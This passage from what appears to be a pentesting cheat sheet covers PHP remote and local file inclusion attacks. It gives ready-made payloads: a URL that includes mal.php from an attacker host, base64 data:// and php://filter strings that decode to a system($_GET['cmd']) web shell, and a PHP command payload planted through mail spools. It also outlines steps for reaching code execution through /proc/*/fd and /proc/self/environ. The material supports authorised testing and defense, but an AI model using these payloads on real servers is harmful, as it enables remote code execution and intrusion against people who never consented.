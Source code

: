 

## Remote File Inclusion

{% embed url="https://book.hacktricks.xyz/pentesting-web/file-inclusion#remote-file-inclusion" %}

In php this is disable by default because **`allow_url_include`** is **Off.** It must be **On** for it to work, and in that case you could include a PHP file from your server and get RCE:

```
http://example.com/index.php?page=http://atacker.com/mal.php
http://example.com/index.php?page=\\attacker.com\shared\mal.php
```

If for some reason **`allow_url_include`** is **On**, but PHP is **filtering** access to external webpages, [according to this post](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/), you could use for example the data protocol with base64 to decode a b64 PHP code and egt RCE:

Copy

```
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt
```

In the previous code, the final `+.txt` was added because the attacker needed a string that ended in `.txt`, so the string ends with it and after the b64 decode that part will return just junk and the real PHP code will be included (and therefore, executed).

Another example **not using the `php://` protocol** would be:

Copy

```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+txt
```

## Via Email

**Send a mail** to a internal account (user@localhost) containing your PHP payload like `<?php echo system($_REQUEST["cmd"]); ?>` and try to include to the mail of the user with a path like **`/var/mail/<USERNAME>`** or **`/var/spool/mail/<USERNAME>`**

## Via /proc/\*/fd/\* <a href="#via-proc-fd" id="via-proc-fd"></a>

1. Upload a lot of shells (for example : 100)
2. Include [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), with $PID = PID of the process (can be brute forced) and $FD the file descriptor (can be brute forced too)

## Via /proc/self/environ <a href="#via-proc-self-environ" id="via-proc-self-environ"></a>

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file
